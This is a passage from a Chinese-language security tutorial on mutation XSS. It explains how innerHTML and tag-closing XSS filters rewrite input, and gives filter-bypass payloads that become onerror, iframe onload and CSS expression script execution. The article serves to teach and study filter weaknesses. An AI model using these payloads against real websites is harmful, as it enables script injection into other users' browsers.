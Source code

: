 接着猥琐流很快就会想到下面的代码，可以看出，成功变成了含有 onerror=alert(1) 的 img 标签。

```
输入形式：

<pkav >123

突变形式：

<img src=1 onerror=alert(1)//:pkav >123</img src=1 onerror=alert(1)//:pkav>

```

扩展：细心的同学也许会注意到，我们的代码中，并未闭合 <pkav>标签。那么一个经常碰到的场景是：XSS 过滤器会在解析 HTML 代码时，自动补全未闭合的标签。这样一来，就会出现下面的场景：</pkav>

```
输入形式：

<pkav >123

过滤后形式：

<pkav >123</pkav>

突变后形式：

<?XML:NAMESPACE PREFIX = [default] urn:wooyun NS = "urn:wooyun" /><pkav >123</pkav>

```

聪明的我们应该不难想到应对办法，这应该也就是[`html5sec.org/?xmlns#97`](http://html5sec.org/?xmlns#97)中所描述问题的发现过程（由 Silin 于 2011 年发现）。

```
输入形式：

<pkav >123</pkav>

突变后形式：

<?XML:NAMESPACE PREFIX = [default] ><iframe onload=alert(1) NS = "><iframe onload=alert(1)" /><pkav >123</pkav>

```

## 0x04 CSS 中反斜线转义导致的 mXSS

* * *

在 CSS 中，允许用\来对字符进行转义，例如：`property: 'v\61 lue'` 表示 `property:'value'`，其中 61 是字母 a 的 ascii 码（16 进制）。\后也可以接 unicode，例如：\20AC 表示 € 。正常情况下，这种转义不会有问题。但是碰上 innerHTML 后，一些奇妙的事情就发生了。看以下代码。

```
输入形式：

<p style="font-family:'ar\27 \3bx\3a expression\28xss\28\29\29\3bial';"></p>

突变形式：

<P style="FONT-FAMILY: 'ar';x:expression(xss());ial'"></P>

```
